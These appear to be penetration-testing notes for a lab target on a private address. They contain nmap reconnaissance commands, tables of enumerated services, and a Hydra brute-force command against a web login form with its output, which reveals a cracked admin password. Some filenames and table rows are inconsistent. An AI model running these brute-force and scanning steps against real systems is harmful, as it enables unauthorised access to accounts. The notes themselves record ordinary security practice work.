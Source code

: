 ## Initial scans
Undertake an initial TCP and UDP scans of the target machines

~~~ bash
sudo nmap [IP] -oG nmap_tcp_initial

sudo nmap [IP] -sU -oG nmap_udp_initial

sudo nmap [IP] -sn -oG nmap_network_sweep

sudo nmap [IP] -O --osscan-guess -oG nmap_os_guess

sudo nmap [IP] -p 22 -oG nmap_tcp_p25

sudo nmap [IP] -p 22 -oG nmap_tcp_p80

sudo nmap [IP] --script ssh2-enum-algos.nse -oG nmap_script_ssh2-enum-algos

sudo nmap [IP] --script ssh-auth-methods.nse -oG nmap_script_ssh-auth-methods

sudo nmap [IP] --script http-enum.nse -oG nmap_script_http-enum

~~~

## Scan results
|port|type|service|status|scan log|notes|
|----|----|-------|------|--------|-----|
|22|tcp|ssh|open|nmap_tcp_initial|none|
|80|tcp|http|open|nmap_tcp_initial|none|
## Users
|username|password|service|hash type|log|free text|
|----|----|-------|------|--------|-----|
|none|none|none|none|none|none|
|none|none|none|none|none|none|
## Operating system
Linux
Apache 2.4.41

## Authentication methods
|port|service|authentication method|notes|
|----|-------|----|-----|
|22|ssh|public key|none|
|22|ssh|password|none|
|80|http|password/htaccess|none|
## HTTP enumeration
|url|folder|file|note|
|---|------|----|----|
|[IP]/login.php|N/A|login.php|none|
|[IP]/css/|css|N/A|none|
|[IP]/img/|img|N/A|N/A|none|
|[IP]/js/|js|N/A|none|
|[IP]/lib/|lib|N/A|none|

### Hydra
Using hydra to to brute force the web page at [IP]/login.php

~~~ bash

# this command was run on the login page 
# 192.168.162.202/login.php
hydra -L /usr/share/wordlists/metasploit/http_default_users.txt -P /usr/share/wordlists/metasploit/password.lst 192.168.162.202 http-post-form "/login.php:username=^USER^&password=^PASS^&login=login:Username password combination is wrong\!"

#############
admin
microsurgery
#############

hydra -L /usr/share/wordlists/metasploit/http_default_users.txt -P /usr/share/wordlists/metasploit/password.lst 192.168.162.202 http-post-form "/login.php:username=^USER^&password=^PASS^&login=login:Username password combination is wrong\!"
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-10-17 20:09:12
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1237572 login tries (l:14/p:88398), ~77349 tries per task
[DATA] attacking http-post-form://192.168.162.202:80/login.php:username=^USER^&password=^PASS^&login=login:Username password combination is wrong!
[STATUS] 732.00 tries/min, 732 tries in 00:01h, 1236840 to do in 28:10h, 16 active
[STATUS] 737.33 tries/min, 2212 tries in 00:03h, 1235360 to do in 27:56h, 16 active
[STATUS] 750.43 tries/min, 5253 tries in 00:07h, 1232319 to do in 27:23h, 16 active
[STATUS] 752.87 tries/min, 11293 tries in 00:15h, 1226279 to do in 27:09h, 16 active
[STATUS] 748.77 tries/min, 23212 tries in 00:31h, 1214360 to do in 27:02h, 16 active
[STATUS] 751.47 tries/min, 35319 tries in 00:47h, 1202253 to do in 26:40h, 16 active
[STATUS] 749.84 tries/min, 47240 tries in 01:03h, 1190332 to do in 26:28h, 16 active
[STATUS] 618.28 tries/min, 48844 tries in 01:19h, 1188739 to do in 32:03h, 5 active
[80][http-post-form] host: 192.168.162.202   login: admin   password: microsurgery
[STATUS] 961.88 tries/min, 91379 tries in 01:35h, 1146204 to do in 19:52h, 5 active
[STATUS] 857.00 tries/min, 95127 tries in 01:51h, 1142456 to do in 22:14h, 5 active
[STATUS] 416.67 tries/min, 95146 tries in 03:48h, 1142437 to do in 45:42h, 5 active
~~~

## Website directory structure

-> <span style="color:cornflowerblue">192.168.xxx.202</span>
  -> <span style="color:darkmagenta">index.html</span>
  -> <span style="color:darkmagenta">login.php</span>
  -> <span style="color:cornflowerblue">css</span>
  -> <span style="color:cornflowerblue">img</span>
  -> <span style="color:cornflowerblue">js</span>
  -> <span style="color:cornflowerblue">lib</span>

## Vulnerabilites

### Apache 2.4.41


  